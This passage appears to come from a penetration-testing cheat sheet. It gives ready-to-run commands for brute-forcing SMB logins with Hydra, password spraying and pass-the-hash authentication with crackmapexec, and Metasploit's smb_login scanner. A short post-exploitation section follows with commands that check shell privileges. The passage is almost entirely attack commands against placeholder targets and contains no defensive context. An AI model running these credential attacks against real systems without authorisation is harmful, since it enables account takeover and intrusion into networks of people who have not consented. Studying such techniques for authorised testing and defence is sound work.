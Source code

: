 ### Method 3: SMB Brute Force

#### Using Hydra
```bash
# Single user brute force
hydra -l administrator -P /usr/share/wordlists/rockyou.txt <target-ip> smb

# Multiple users
hydra -L users.txt -P passwords.txt <target-ip> smb

# SMB with domain
hydra -l administrator -P passwords.txt <target-ip> smb -V -f
```

#### Using crackmapexec
```bash
# Password spraying
crackmapexec smb <target-ip> -u users.txt -p 'Password123!' --continue-on-success

# Brute force
crackmapexec smb <target-ip> -u admin -p passwords.txt

# Hash-based authentication
crackmapexec smb <target-ip> -u admin -H <ntlm-hash>
```

#### Using Metasploit
```bash
# SMB login scanner
use auxiliary/scanner/smb/smb_login
set RHOSTS <target-ip>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```

---

## ✅ Post-Exploitation Activities

### Initial System Assessment
```bash
# Verify shell access and privileges
id
whoami
groups
uname -a
hostname

# Check if running as root
if [ "$EUID" -eq 0 ]; then
    echo "Running as root!"
else
    echo "Running as user: $(whoami)"
fi
```
